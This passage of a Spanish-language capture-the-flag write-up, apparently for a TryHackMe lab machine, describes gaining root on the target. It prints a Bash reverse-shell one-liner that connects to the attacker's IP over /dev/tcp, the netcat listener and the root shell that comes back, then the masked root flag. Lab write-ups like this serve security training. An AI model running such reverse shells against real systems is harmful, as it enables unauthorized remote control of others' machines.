 Creamos un script Bash sencillo que nos permitió establecer una reverse shell. Este script fue diseñado para redirigir la entrada y salida de la shell hacia nuestro equipo a través de una conexión TCP.

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.9.215.134/444 0>&1'
```

En nuestra máquina atacante, usamos Netcat para escuchar conexiones entrantes:

```bash
nc -nvlp 444
listening on [any] 444 ...
connect to [10.9.215.134] from (UNKNOWN) [10.10.106.240] 45854
bash: cannot set terminal process group (3437): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```

Después de obtener acceso completo al sistema, buscamos la flag de root. La encontramos en el archivo root.txt ubicado en el directorio raíz del sistema.

```bash
root@startup:~# cat root.txt
cat root.txt
THM{***********************}
root@startup:~# 
```






























